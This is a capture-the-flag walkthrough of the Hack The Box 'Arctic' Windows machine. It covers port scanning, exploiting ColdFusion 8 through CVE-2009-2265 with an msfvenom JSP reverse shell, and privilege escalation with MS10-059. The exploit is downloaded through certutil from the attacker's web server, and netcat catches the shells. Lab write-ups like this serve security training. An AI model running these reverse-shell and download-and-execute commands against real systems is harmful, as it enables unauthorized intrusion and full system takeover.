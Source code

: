# Arctic

**OS:** Windows

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/Arctic)  [2](https://app.hackthebox.com/machines/Arctic)

**Machine ip:** 10.10.10.11

![Arctic](https://github.com/h4md153v63n/CTFs/assets/5091265/d397feae-2a4e-407d-b89c-8be5e16dbd0c)


# Sections
+ [Reconnaissance](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/46_Arctic.md#reconnaissance)
+ x
+ [Links](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/46_Arctic.md#links)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.11 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.11 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2a63e599-4daa-4749-9bce-3fdd108a0fb8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1fb88333-4181-436f-afa1-c5b07366bca2)


## Enumeration
Visit **http://10.10.10.11:8500/**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2d1d0c15-3bc9-4a1e-b45f-2bbfc5ab816f)

Check consecutively **http://10.10.10.11:8500/CFIDE/** -> **http://10.10.10.11:8500/CFIDE/administrator/**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3ffa0ee5-63da-4a34-802b-d94c1505c0b2)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dc394261-f2e2-4ff1-8097-2bff1c424d5e)


## Exploitation & Gaining Access

### Method 1: [CVE-2009-2265](https://github.com/c0d3cr4f73r/CVE-2009-2265/blob/main/upload.py) - Without Metasploit
`searchsploit ColdFusion 8.0`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8ebb9589-7dde-449e-b246-753a5516da14)

Without metasploit, download the exploit: [CVE-2009-2265](https://github.com/c0d3cr4f73r/CVE-2009-2265/blob/main/upload.py)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/249d5d95-b6cf-4463-b08a-c0a89556408d)

Generate a **jsp** reverse shell payload with msfvenom:

```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.24 lport=4444 -f raw -o payload.jsp
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8a065239-c0c4-444b-b822-4fbb82ec1195)

Execute the exploit: `python2 upload.py 10.10.10.11 8500 payload.jsp`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/14c69e8e-c227-4fd2-8387-c2d648fb6979)

Start netcat listener: `nc -lnvp 4444`

Visit the payload on the browser: `http://10.10.10.11:8500/userfiles/file/exploit.jsp`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4742bb0b-33c5-4a3a-bcb9-7d4e30059efa)

Get the revershell, and read the user.txt flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c7c29511-3e4a-44e2-a455-cbb6fde1a4a6)


## Privilege Escalation

### Method 1: 
Run `systeminfo` command:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/eff27157-eea5-4e03-9f32-e6c80e696f91)

```
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/595ca8c8-d4f9-4097-8f8d-6269df2958be)

Run Windows Exploit Suggester:

```
# On the kali attack vm:
python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2024-04-23-mssb.xls --systeminfo systeminfo.txt
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1890f685-15db-47dd-9b54-395cc6ddfef8)

Download exploit **MS10-059** [1](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059), and transfer to the target victim, then prepare netcat listener, and run it:

```
# On the kali attack vm:
sudo python3 -m http.server

nc -lnvp 5555


# On the target machine:
certutil.exe -urlcache -split -f "http://10.10.14.24:8000/MS10-059.exe" MS10-059.exe

MS10-059.exe 10.10.14.24 5555
```

Get the shell as **nt authority\system**, and read root.txt flag:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/03b09a37-ec6e-4c65-8fdf-f1a0fc7ae8d8)



---

# Links

# References & Alternatives
+ https://vvmlist.github.io/#Arctic
+ https://cyberkareem.medium.com/hackthebox-arctic-walkthrough-13e1920d0cca
+ x 
+ https://0xdf.gitlab.io/2020/05/19/htb-arctic.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/arctic-writeup-w-o-metasploit
+ 


## CVE Scripting
+ **CVE-2009-2265:**
  + https://github.com/c0d3cr4f73r/CVE-2009-2265/tree/main
    + https://github.com/c0d3cr4f73r/CVE-2009-2265/blob/main/upload.py
    + https://raw.githubusercontent.com/nipunsomani/Adobe-ColdFusion-8-File-Upload-Exploit/main/exploit.py
+ **MS10-059:**
  + https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059
  + https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe


## Tools
+ **Windows Exploit Suggester:**
  + https://github.com/AonCyberLabs/Windows-Exploit-Suggester


## Technical Knowledge
+ x 


## Problems Solution
+ x 


## For More
+ x  

